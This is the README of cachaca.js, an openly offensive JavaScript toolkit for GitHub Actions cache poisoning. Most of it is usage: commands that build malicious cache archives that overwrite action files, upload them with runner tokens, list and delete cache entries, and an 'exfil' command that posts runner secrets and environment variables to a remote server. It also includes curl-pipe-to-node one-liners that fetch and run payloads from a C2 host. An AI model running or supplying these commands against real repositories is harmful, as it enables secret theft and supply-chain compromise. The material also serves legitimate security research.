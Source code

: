 <div align="center">
	:cocktail:
</div>
<h1 align="center">
  cachaca.js
</h1>

<p align="center">
   Some JS files to exploit GitHub action cache poisoning.
</p>

<div align="center">
  <!--<img src="img/cachaca.png"/>-->
</div>

<br />

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Installation](#installation)
- [GitHub action cache poisoning](#github-action-cache-poisoning)
- [Usage](#usage)
  - [cachaca-cli.js](#cachaca-clijs)
    - [Upload](#upload)
    - [Archive](#archive)
    - [list](#list)
    - [delete](#delete)
    - [exfil](#exfil)
  - [cachaca-dumper.js](#cachaca-dumperjs)
  - [cachaca-poisoner.js](#cachaca-poisonerjs)
- [Acknowledgements](#acknowledgements)


## Installation

```
$ git clone https://github.com/Hug0Vincent/cachaca.js.git
$ cd cachaca.js
$ npm i
```

To build all the scripts:
```
$ npm run build
```

## GitHub action cache poisoning

> when a workflow checked out and ran user-controlled code, but only had a ``GITHUB_TOKEN`` with read access and no secrets [...] There is a way to escalate by smashing caches.

This attack vector was originaly found by [@adnanthekhan](https://twitter.com/adnanthekhan), you can read it [here](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/) and [here](https://adnanthekhan.com/2024/12/21/cacheract-the-monster-in-your-build-cache/).

This project includes JS scripts designed to exploit GitHub Actions's cache mechanism. To use them, you must be able to execute arbitrary commands within a workflow running on the default branch.

## Usage

### cachaca-cli.js

```
$ node dist/cachaca-cli.js
Usage: cachaca.js [options] [command]

CLI tool for exploiting GitHub action's cache.

Options:
  -V, --version      output the version number
  -h, --help         display help for command

Commands:
  upload [options]   Upload a cache entry to GitHub.
  archive [options]  Build a cache archive.
  list [options]     List all cache entries for a repository
  delete [options]   Delete a specific cache entry
  exfil [options]    Send secrets to a remote server.
  help [command]     display help for command

```

#### Upload

The upload command can be used to upload a ``zstd`` archive to GitHub. It should be run from a runner:

```
$ node dist/cachaca-cli.js upload -k cache_key -v node_modules -u https://127.0.0.1/mycache.zstd
```

> [!NOTE] 
> You can specify the version as a path (or multiple paths separated by commas). If you do, the tool will automatically resolve the actual version for you.

```
Usage: cachaca.js upload [options]

Upload a cache entry to GitHub.

Options:
  -k, --key <key>          Cache key
  -v, --version <version>  Cache version
  -f, --file <path>        Path to the local artifact file
  -u, --url <url>          URL of the remote artifact file
  -t, --token <token>      GitHub token
  -h, --help               display help for command
```

> [!NOTE] 
> You can execute it independently of a runner by supplying a cached JWT. However, you won’t be able to upload an archive if the workflow that provided the JWT has already terminated.

#### Archive

This command can be used to build malicious ``zstd`` archives:

```
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./assets/action_checkout.yml -r /home/runner/work/_actions/actions/checkout/v4/action.yml
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./dist/cachaca-dumper.js -r /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js
📦 building archive: mycache.zstd
✅ Archive updated.
📄 Archive entries:
	- /home/runner/work/_actions/actions/checkout/v4/action.yml
	- /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js

```

```
Usage: cachaca.js archive [options]

Build a cache archive.

Options:
  -z, --zstd <path>          Path for the archive file
  -a, --add <path>           Source file or directory to archive
  -r, --rename <name>        Rename file in archive.
  -l, --leading-path <path>  Leading path in the archive (default: "")
  --list                     List archive content.
  -h, --help                 display help for command

```

#### list

This command is used to list cache entries from a repo:

```
$ node dist/cachaca-cli.js  list -o actions -r runner                                                                                     26.15% 2/9GB 
Cache entries:
- Key: Linux-nuget-86355ad7f28c3580457d8ef5b7f66a402201c7c7abb60add09b887f3512d907e, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/main, Size: 1737918364 bytes
- Key: Linux-nuget-d6dfc31d4d2f6ebf6a2ed39484c617033ba83fe3a0919004cd7fd1219228cf2d, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/dependabot/nuget/src/Sdk/main/Azure.Storage.Blobs-12.25.1, Size: 2610626989 bytes
```

#### delete

This command is used to remove a cache entry from a repo.

```
$ node dist/cachaca-cli.js  delete -o org -r repo -t $GHP -k cache_key -v cache_version
```

> [!IMPORTANT]  
> You need to provide a token with the ``actions: write`` permission.

#### exfil

This command extracts the GitHub secrets passed to the runner, along with the current environment variables, and sends them as a JSON payload via a POST request to a remote server. It must be executed within a runner.

```
$ node dist/cachaca-cli.js exfil -u https://127.0.0.1
```

### cachaca-dumper.js

Single script that perform the same operation as the ``exfil`` command. The URL is embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-dumper.js | node
```

To configure it edit the ``dumperExfilUrl`` value in [config.json](config.json).

### cachaca-poisoner.js

Single script that perform the same operation as the ``upload`` command. The arguments are embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-poisoner.js | node
```

To configure it edit the values in [config.json](config.json).

``poisonerFetchMode`` can be ``url`` / ``file`` / ``embedded``. In any case ``poisonerFetchModeValue`` will contain the associated value wich would be an URL or a file path. In the ``embedded`` case the file will be staticaly added to ``cachaca-poisoner.js``.

``poisonerCacheVersion`` must contain the full version or the value of the ``path`` in the ``restore`` action:

```yml
-   name: cache
    uses: actions/cache/restore@v4
    with:
        path: node_modules/
        key: npm-test
```

Here is a config example:

```json
{
    "dumperExfilUrl":"https://127.0.0.1/",
    "poisonerFetchMode":"url",
    "poisonerFetchModeValue":"http://127.0.0.1/custom_cache.zstd",
    "poisonerCacheKey": "npm-test",
    "poisonerCacheVersion": "node_modules/"
}
```

## Acknowledgements

- [@adnanthekhan](https://twitter.com/adnanthekhan) for the original research and also because portions of this project include code from [Cacheract](https://github.com/AdnaneKhan/Cacheract).

